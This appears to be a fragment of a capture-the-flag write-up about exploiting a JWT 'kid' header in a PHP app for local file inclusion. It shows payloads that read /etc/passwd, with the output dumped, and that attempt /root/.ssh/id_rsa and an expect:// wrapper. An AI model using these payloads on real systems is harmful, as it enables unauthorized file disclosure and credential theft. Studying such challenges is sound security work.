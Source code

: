 ```php
<b>Warning</b>:  Cannot modify header information - headers already sent by (output started at /var/www/html/includes/jwt.php:28) in <b>/var/www/html/includes/helper.php</b> on line <b>4</b><br />

```

### `kid = /etc/passwd`:
```
Notice:
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin

in /var/www/html/includes/jwt.php on line 28

Warning: openssl_verify(): supplied key param cannot be coerced into a public key in /var/www/html/vendor/firebase/php-jwt/src/JWT.php on line 272

Warning: Cannot modify header information - headers already sent by (output started at /var/www/html/includes/jwt.php:28) in /var/www/html/includes/helper.php on line 4
```


### `kid = "/root/.ssh/id_rsa"`

```
Warning: file_get_contents(/root/.ssh/id_rsa): failed to open stream: Permission denied in /var/www/html/includes/jwt.php on line 28
```

### `kid = "expect://ls"`

Warning: file_get_contents(): Unable to find the wrapper "expect" - did you forget to enable it when you configured PHP? in /var/www/html/includes/jwt.php on line 28


## LFI to RCE

There might be a way to leverage the LFI to gain RCE, but that's way out of the scope of this challenge.